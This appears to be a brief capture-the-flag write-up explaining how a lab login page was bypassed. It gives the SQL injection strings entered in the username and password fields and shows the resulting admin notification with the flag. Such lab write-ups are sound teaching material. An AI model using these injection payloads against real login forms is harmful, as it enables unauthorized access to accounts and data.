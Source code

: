 ## Method

We go to the login page and execute a standard SQL injection attack on the admin user which is mentioned in the notification above.

`username`:`admin' or '1'='1`
`password`:`' or '1'='1`

After login we see a notification containing:
```
Currently logged in user: 'admin'. Full name: 'John Doe'. FLAG{DZIVI:85746538761-WEB}.
```